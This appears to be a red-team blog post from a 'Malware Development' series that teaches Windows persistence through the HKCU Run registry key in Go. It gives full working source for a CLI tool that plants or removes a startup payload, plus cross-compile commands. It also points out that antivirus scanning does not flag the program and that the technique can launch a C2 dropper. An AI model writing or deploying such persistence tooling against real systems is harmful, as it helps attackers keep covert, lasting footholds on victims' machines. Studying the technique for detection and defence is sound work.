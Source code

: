 ```yaml
---
layout: post
title: Malware Development 7 - Persistence via autorun registry (Golang)
tags: [Persistence]
categories: [Malware Development]
---
```


<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/banners/banner-7.png" alt="pic">

# Introduction

Hello my friends!

This post will be a little bit shorter than usual but don't worry because it will teach you a simple and well known persistence technique.

# Explanation

A lot of malwares use this technique because it allows you to execute a command or file on every startup. Breaking into an organisation network is hard and it could take you a long time, that's why ***persistence*** is really important to focus on the rest of the work instead of getting access again. In this case there are some Windows registry keys which allow you to do this, we'll use the `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` one

Here you have another graph done by me which simplifies the explanation

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/schemes/malware-7.png" alt="pic">

# Code

In order to interact with registry keys we have to import the official Golang `registry` package

```go
package main

import (
  "fmt"
  "log"

  "golang.org/x/sys/windows/registry"
)
```

And then we write the rest of the code, this post is much more simple

```go
func main(){
  // Open registry key
  key, _, err := registry.CreateKey(
    registry.CURRENT_USER, // registry path
    "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",
    registry.ALL_ACCESS, // full access
  )

  if err != nil { // Handle error
    log.Fatal(err)
  }
  defer key.Close() // Close key

  // Overwrite value
  err = key.SetStringValue("", "C:\\Windows\\System32\\cmd.exe")
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] Success!")
}
```

If we execute that, it will overwrite the key value with `C:\\Windows\\System32\\cmd.exe`

Now let's restart the system to see if it runs on startup...

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice7/malware-7.png" alt="pic">

Yes! It worked and a cmd appeared

But this is too easy, let's create a better tool with CLI arguments. We'll do it with the internal `flag` package

In this case the program will have 2 main options, one to write our payload and the other to remove the payloads. New filename is `main2.exe` and the final code is this:

```go
package main

import (
  "fmt"
  "log"
  "flag"

  "golang.org/x/sys/windows/registry"
)

func main(){
  var payload string
  var delete_flag bool

  flag.StringVar(&payload, "p", "C:\\Windows\\System32\\cmd.exe", "write payload to execute on startup")
  flag.BoolVar(&delete_flag, "d", false, "delete current payload from registry key")
  flag.Parse()

  fmt.Println("[*] Opening registry key...")
  key, _, err := registry.CreateKey(
    registry.CURRENT_USER,
    "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",
    registry.ALL_ACCESS,
  )

  if err != nil {
    log.Fatal(err)
  }
  defer key.Close()

  if delete_flag == false {
    fmt.Println("[*] Writing our payload: " + payload)
  } else {
    payload = ""
  }

  err = key.SetStringValue("", payload)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] Success!")
}
```

Now let's test this out.

# Demo

Compile the Golang code:

> Linux command
```sh
GOARCH=amd64 GOOS=windows go build main2.go
```

> Windows command
```
go build main2.go
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice7/compile-7.png" alt="pic">

And here we can see that this "new" features also work.

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice7/demo-malware-7.png" alt="pic">

Let's see what ***antiscan.me*** says about the program.

<img src="https://antiscan.me/images/result/nEUUJJ6Kv5f2.png" alt="pic">

As it's a really simple program is hard to detect as malicious.

# References

```
https://pkg.go.dev/golang.org/x/sys/windows/registry
https://github.com/golang/go/issues/32748
https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/
```

# Conclusion

This is a well known technique which can be used with no malicious intentions to run on startup an app, but it also can be used to execute malware like a C2 dropper.

Source code [here](https://github.com/D3Ext/malware-practices)

[Go back to top](#)

